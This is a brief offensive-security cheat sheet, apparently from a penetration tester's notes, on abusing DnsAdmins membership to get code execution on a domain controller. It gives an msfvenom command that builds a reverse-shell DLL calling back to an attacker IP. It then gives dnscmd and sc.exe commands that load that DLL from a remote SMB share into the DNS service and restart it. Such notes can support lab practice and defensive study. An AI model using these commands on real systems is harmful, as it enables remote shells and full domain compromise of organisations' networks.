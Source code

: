 # DnsAdmins - dll Injection
---------
- Inject a DNS plugin dll into dns.exe process on  a victim DNS server (DC).

Generate a reverse shell dll using msfvenom:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=9999 -f dll -o shell.dll
```

Serve the malicious dll in a smb share

On victim PC:
```cmd
dnscmd.exe /config /serverlevelplugindll \\10.10.14.51\share\shell.dll

sc.exe stop dns

#once it is stopped:

sc.exe start dns
```


https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise








